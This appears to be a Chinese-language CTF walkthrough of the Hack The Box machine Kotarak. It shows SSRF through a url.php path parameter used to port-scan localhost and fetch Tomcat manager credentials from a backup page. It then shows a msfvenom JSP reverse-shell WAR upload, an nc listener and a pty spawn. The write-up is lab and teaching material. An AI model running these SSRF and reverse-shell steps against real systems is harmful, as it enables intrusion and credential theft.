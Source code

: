 ```yaml
---
title: Kotarak（tomcat web server）
categories:
- training
tags:
- training
---
```

<html>
<head>
<meta charset="UTF-8">
<title>kotarak（ssrf+上传）</title>
</head>
<body>
<h1 id="kotarak（tomcat-web-server）">Kotarak（tomcat web server）</h1>
<ul>
<li>端口扫描</li>
</ul>
<blockquote>
<p>22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)<br>
8009/tcp open  ajp13  Apache Jserv (Protocol v1.3)<br>
8080/tcp open  http    Apache Tomcat 8.5.5<br>
Service Info: <strong>OS: Linux</strong>; CPE: cpe:/o:linux:linux_kernel</p>
</blockquote>
<p>首先访问http://10.10.10.55:8080，显示HTTP Status 404 - /，状态码404not found。于是枚举目录。</p>
<blockquote>
<p>dirb <a href="http://10.10.10.55:8080">http://10.10.10.55:8080</a></p>
</blockquote>
<pre><code>+ http://10.10.10.55:8080/docs (CODE:**302**|SIZE:0)

+ http://10.10.10.55:8080/examples (CODE:302|SIZE:0)                         

+ http://10.10.10.55:8080/favicon.ico (CODE:200|SIZE:21630)                   

+ http://10.10.10.55:8080/host-manager (CODE:302|SIZE:0)                     

+ http://10.10.10.55:8080/manager (CODE:302|SIZE:0)
</code></pre>
<p>发现基本上都是302重定向。</p>
<p>于是访问下 <a href="http://10.10.10.55:8080/manager">http://10.10.10.55:8080/manager</a> （A地址）</p>
<p>发现302重定向到http://10.10.10.55:8080/manager/ （B地址）</p>
<p>并且，B地址的状态码是404。但是404页面有个提示，tomcat 7重构并且有些urls已经改变。所有使用管理应用的urls现在应该使用如下选项：</p>
<blockquote>
<p>/manager/html for the HTML GUI<br>
/manager/text for the text interface<br>
/manager/jmxproxy for the JMX proxy<br>
/manager/status for the status pages</p>
</blockquote>
<p>既然提示这么贴心了，那我们就按照所说的访问一下。</p>
<p>然后发现，所给的urls都需要<strong>登陆</strong>才能访问。</p>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/2883590-ab8b47382ef604b6.png" alt=""></figure>
<p>再搜索下 Apache Tomcat 8.5.5。<a href="http://blog.csdn.net/posonrick/article/details/72566875">参考</a></p>
<p>tomcat是java web服务器</p>
<p>尝试访问：<a href="http://10.10.10.55:8080/index.jsp">http://10.10.10.55:8080/index.jsp</a> ，200ok。<br>
然后没有思路了。。最讨厌爆破了。。</p>
<p>终于等到了writeup出来的那一天，不过与此同时，靶机也下线了。</p>
<h1 id="ssrf-服务端请求伪造">SSRF-服务端请求伪造</h1>
<p>没有经验的小白先跟whale学习下。<br>
该漏洞经常出现在服务端，一些web应用程序经常从其他server获取信息。</p>
<blockquote>
<p>客户端 （去B服务器取回图片 !）——》A服务端（执行）————》B服务器（返回图片）————》A服务器（执行完毕）————》客户端（收到图片）</p>
</blockquote>
<h2 id="攻击方式：">攻击方式：</h2>
<blockquote>
<p>客户端（去扫描B服务器 ！）——》A服务端（执行）————》B服务器（返回数据包）————》A服务器（执行完毕）————》客户端（收到扫描结果）</p>
</blockquote>
<p>服务器没有过滤客户端的请求。本来设计的功能想法是好的，但是攻击者不打算<strong>以设计者的想法</strong>来使用这个功能。</p>
<p>代码不多说，本文只讲讲实践部分，至于更深层次的漏洞原理和代码片段还需要各位自行学习。</p>
<p>再次扫描，全端口扫描</p>
<blockquote>
<p>nmap -p- -sV 目标的ip</p>
</blockquote>
<p>作者扫描出了一个开放在60000的端口，类型是未知。但是我扫描的结果是，需要8个多小时。。想了半天才想起来，目标机器是在美国，对于网速实在不能苛求。。（感觉好坑，天朝就没有这种试验靶场吗）</p>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/2.PNG" alt=""></figure>
<p>扫描出了以后，用浏览器访问。</p>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/%E6%8D%95%E8%8E%B7.PNG" alt=""></figure>
<pre><code>使用这个私人的web浏览器匿名在网络冲浪，请不要滥用它。
</code></pre>
<ul>
<li>Trying</li>
</ul>
<pre><code>python -m SimpleHTTPServer
ifconfig
在本地开启服务器，查看本地ip。
</code></pre>
<p>尝试用浏览器上的该功能访问下本地，是否成功。<br>
输入<code>http://本地ip：8000</code><br>
浏览器跳转到一个地址<code>http://10.10.10.55:60000/url.php?path=http://本地ip:8000</code><br>
成功访问客户端本地地址。</p>
<ul>
<li>Trying</li>
</ul>
<p>然后尝试ssrf，提交<code>file:///etc/passwd</code><br>
返回<code>try harder</code><br>
尝试File FIlE  ,同样的返回结果。说明目标机可能用正则表达式限制了file这个字符。</p>
<ul>
<li>Trying<br>
尝试<code>http://localhost:60000</code>  返60000端口上的正常页面。<br>
因为端口扫描那一步<strong>客户端访问都是302重定向</strong>，需要登陆才能访问，于是我们通过60000端口上的“搜索”功能，绕过对客户端的限制。让服务器替我们获取想要的信息。</li>
</ul>
<h1 id="wfuzz">wfuzz</h1>
<ul>
<li>这是一个web扫描软件<br>
可以用<code>wfuzz -h</code> 查看使用方式<br>
我们使用下列参数，扫描服务器开放的端口<br>
<code>wfuzz -c -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ</code></li>
</ul>
<p><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/3.PNG" alt=""><br>
图片中，2 Ch是响应的字符串，访问后发现没有任何有价值的东西，于是我们忽略它。<br>
<code>wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ</code><br>
扫描后，我们得到了非2 Ch的响应结果。<br>
看到了很多端口信息，因为<strong>客户端nmap扫描是远程访问</strong>，有 防火墙等等，所以在这里会得到更加详细的（在远程扫描不到的）端口信息。</p>
<ul>
<li>trying<br>
一个一个访问这些开放了的端口，<code>http://10.10.10.55:60000/url.php?path=http://localhost:端口</code><br>
在888端口，找到了一个备份页面backup。</li>
</ul>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/4.PNG" alt=""></figure>
<ul>
<li>Trying</li>
</ul>
<p>访问备份页面的地址<code>http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup</code><br>
url编码一下<code>http%3A%2f%2f10.10.10.55%3A60000%2furl.php%3Fpath%3Dhttp%3A%2f%2flocalhost%3A888%2f%3Fdoc%3Dbackup</code><br>
得到了可能是tomcat配置文件中的用户名密码。</p>
<p>（有一个小技巧，在端口扫描那一步，得到了不能访问的文件名，可以用ssrf去访问，来获取敏感文件。）</p>
<p><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/5.PNG" alt=""><br>
我们用这个口令登陆端口扫描那一步获得的地址<code>manager/html</code></p>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/6.PNG" alt=""></figure>
<h2 id="获取shell">获取shell</h2>
<p>刚刚通过ssrf获取敏感文件，从而突破防线，接下来，我们要获取一个shell。</p>
<p><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/7.PNG" alt=""><br>
用msfvenom生成一个payload，接下来要将它上传到目标机上运行。<br>
因为主页面上有上传功能，提示：</p>
<pre><code>deploy directory or WAR file located on server.
war file to deploy 
select war file to upload.
</code></pre>
<p>暗示了我们可以上传一个war类型的反弹shell。</p>
<blockquote>
<p>msfvenom -p java/jsp_shell_reverse_tcp LHOST=kali的ip LPORT=80 -f war &gt; ippsec.war</p>
</blockquote>
<p><code>War——web归档文件，war文件用于封装web模块。web模块可以代表一个独立的web应用程序。</code></p>
<ul>
<li>Trying<br>
成功上传——本地nc监听80端口<code>nc -lnvp 80</code>——浏览器访问payload地址，即可获得一个shell。</li>
</ul>
<p><code>python -c 'import pty;pty.spawn(&quot;/bin/bash&quot;)'</code></p>

</body>
</html>
